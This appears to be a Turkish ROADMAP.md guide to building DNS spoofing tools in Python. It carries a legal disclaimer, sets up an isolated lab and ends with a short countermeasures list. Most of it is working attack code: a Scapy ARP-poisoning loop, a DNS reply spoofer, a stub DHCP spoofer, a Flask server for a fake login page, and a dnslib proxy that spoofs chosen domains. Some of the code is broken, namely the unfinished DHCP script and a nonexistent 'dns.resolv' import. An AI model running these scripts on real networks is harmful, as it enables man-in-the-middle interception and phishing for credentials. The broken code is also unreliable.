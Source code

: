 # ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## Giriş
Bu yol haritası, Kali Linux’ta bulunan DNS spoofing araçlarından (Ettercap, Dnsspoof, DNSChef, Bettercap, DDSpoof ve SET) esinlenerek, Python kullanılarak bu özelliklerin nasıl geliştirileceği ve test edileceğine dair detaylı bir rehber sunar. **Önemli Uyarı: Bu bilgiler yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımı yasa dışı ve etik dışıdır. Herhangi bir ağda veya sistemde test yapmadan önce açık izin almanız zorunludur.**

Bu rehber, DNS spoofing tekniklerini Python ile yeniden oluşturmayı, etik ve yasal sınırlar içinde kalarak kontrollü bir ortamda test etmeyi amaçlar.

## Ön Koşullar
- **Python 3.x**: Geliştirme için temel dil.
- **Kütüphaneler**:
  - Scapy: Paket oluşturma ve ağ manipülasyonu için (`pip install scapy`).
  - dnslib: DNS sunucusu oluşturmak için (`pip install dnslib`).
  - Flask: Sahte web sunucusu için (`pip install flask`).
- **Bilgi Gereksinimleri**:
  - Python programlama temelleri.
  - Ağ protokolleri (IP, ARP, DNS, DHCP) hakkında temel bilgi.
  - Linux komut satırı kullanımı.
- **Araçlar**: VirtualBox veya benzeri bir sanallaştırma yazılımı.

## Test Ortamını Kurma
Güvenli bir test ortamı oluşturmak için aşağıdaki adımları izleyin:
1. **VirtualBox Kurulumu**: VirtualBox’ı indirin ve kurun.
2. **Sanal Makineler (VM) Oluşturma**:
   - **Saldırgan VM**: Kali Linux veya herhangi bir Linux dağıtımı.
   - **Kurban VM**: Herhangi bir işletim sistemi (ör. Windows, Linux).
3. **Ağ Yapılandırması**: VM’leri yalnızca dahili veya host-only bir ağda çalışacak şekilde ayarlayın. Bu, testlerin üretim ağlarından izole olmasını sağlar.

## Temel Bileşenlerin Geliştirilmesi

### ARP Spoofing Betiği
ARP spoofing, ortadaki adam (MITM) saldırıları için temel bir adımdır. Bu betik, saldırganın MAC adresini ağ geçidinin IP’siyle ilişkilendirmek için sahte ARP yanıtları gönderir.

1. Scapy’yi kurun: `pip install scapy`
2. IP yönlendirmeyi etkinleştirin: `sudo sysctl -w net.ipv4.ip_forward=1`
3. ARP spoofing betiğini oluşturun:

```python
from scapy.all import *
import time

def get_mac(ip):
    ans, _ = arping(ip)
    for s, r in ans:
        return r[Ether].src

def arp_spoof(target_ip, gateway_ip):
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    while True:
        send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip), verbose=0)
        send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip), verbose=0)
        time.sleep(2)

# Kullanım
arp_spoof('192.168.1.10', '192.168.1.1')  # hedef_ip, ağ_geçidi_ip
```

### DNS Spoofing Betiği
Bu betik, DNS sorgularını yakalar ve sahte yanıtlarla kurbanı yönlendirir.

1. Scapy ile DNS spoofing betiğini yazın:

```python
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"  # Saldırganın IP’si
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/\
                         UDP(dport=packet[UDP].sport, sport=53)/\
                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```

### DHCP Manipülasyon Betiği
Bu betik, sahte DHCP teklifleriyle istemcilere yanlış bir DNS sunucusu atar (DDSpoof benzeri).

1. Scapy ile DHCP spoofing betiği:

```python
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:  # Keşif (Discover)
        fake_dns = "192.168.1.100"
        # Sahte DHCP yanıtı oluşturma (detaylı paket yapılandırması gerekir)
        # send(dhcp_offer)

sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)
```

### Sahte Web Sunucusu
Kimlik avı veya sahte içerik sunmak için bir web sunucusu oluşturun.

1. Flask’ı kurun: `pip install flask`
2. Basit bir Flask uygulaması yazın:

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

- `templates/fake_login.html` dosyası oluşturun (örneğin, bir giriş sayfası taklidi).

## Gelişmiş Geliştirmeler

### Seçmeli DNS Spoofing için DNS Proxy
DNSChef gibi belirli alan adlarını spoof eden bir DNS sunucusu oluşturun.

1. dnslib’i kurun: `pip install dnslib`
2. DNS proxy betiği:

```python
from dnslib import *
from dnslib.server import DNSServer, DNSHandler, BaseResolver
import dns.resolv

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        else:
            # Gerçek DNS’e yönlendirme
            reply = DNSRecord.parse(dns.resolv.Resolver().query(request.q.qname, request.q.qtype).send())
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()
```

### Entegre MITM Betiği
Bettercap benzeri bir betikle ARP ve DNS spoofing’i birleştirin.

1. Yukarıdaki ARP ve DNS spoofing kodlarını birleştirin.
2. Yapılandırma dosyası veya komut satırı argümanlarıyla özelleştirin.

## Geliştirmelerin Test Edilmesi
1. **ARP Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de ARP tablosunu kontrol edin (`arp -a`); ağ geçidinin MAC adresi saldırganınkiyle değişmiş olmalı.
2. **DNS Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de bir alan adı çözümleyin (ör. `nslookup example.com`); sahte IP dönmeli.
3. **DHCP Manipülasyonu**:
   - Betiği çalıştırın.
   - Kurban VM’de IP kirasını yenileyin (`ipconfig /renew` veya `dhclient`); DNS sunucusu sahte IP olmalı.
4. **Sahte Web Sunucusu**:
   - Kurban VM’den sahte domaine erişin; sahte sayfa görüntülenmeli.

## Karşı Önlemler ve En İyi Uygulamalar
- **Statik ARP Girişleri**: ARP spoofing’i önler.
- **DNSSEC**: DNS sorgularını doğrular.
- **HTTPS Kullanımı**: Sertifika uyarılarına dikkat edin.
- **VPN**: Trafiği şifreler ve yerel manipülasyonları engeller.
- **İzole Test Ortamı**: Üretim ağlarında test yapmayın.

## Sonuç
Bu yol haritası, Python ile DNS spoofing özelliklerini geliştirmeyi ve test etmeyi adım adım açıklamıştır. Etik ve yasal sorumluluklara bağlı kalarak, bu bilgileri siber güvenliği güçlendirmek için kullanmaya devam edin.
